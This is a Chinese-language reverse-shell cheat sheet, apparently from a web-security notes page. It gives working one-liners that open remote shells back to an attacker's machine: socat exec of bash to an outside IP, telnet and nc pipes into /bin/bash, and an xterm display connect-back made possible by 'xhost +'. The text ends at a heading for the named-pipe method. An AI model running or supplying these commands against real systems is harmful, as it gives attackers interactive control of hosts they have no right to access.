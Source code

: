 ### socat

```shell
socat file:`tty`,raw,echo=0 tcp-listen:9999  # 监听命令
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.2.102:9999  # 反弹命令
```

### telnet

```shell
mknod a p; telnet 10.211.55.2 7777 0<a | /bin/bash 1>a
```

```shell
telnet x.x.x.x 6666 | /bin/bash | telnet x.x.x.x 5555
```

### Xterm

```shell
# 在主控端配置
# 开启Xserver：　　# TCP 6001
Xnest :1                

# 授予目标机连回来的权限：
xterm -display 127.0.0.1:1          # Run this OUTSIDE the Xnest, another tab
xhost +targetip                         # Run this INSIDE the spawned xterm on the open X Server
# 如果想让任何人都连上：
xhost +                      

# 在受控端执行
# 假设xterm已安装，连回你的Xserver：
xterm -display attackerip:1
或者：
$ DISPLAY=attackerip:0 xterm
```

### 基于匿名管道（pipe）传递指令流

```shell
# client
nc 192.168.43.146 7777 | /bin/bash | nc 192.168.43.146 8888
# server
ncat -lvvp 7777
# server 
ncat -lvvp 8888
```

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/532548-20191215104646111-1137243959.png)

bash进程的输入输出都来自其他进程的pipe

### 基于命名管道（fifo）
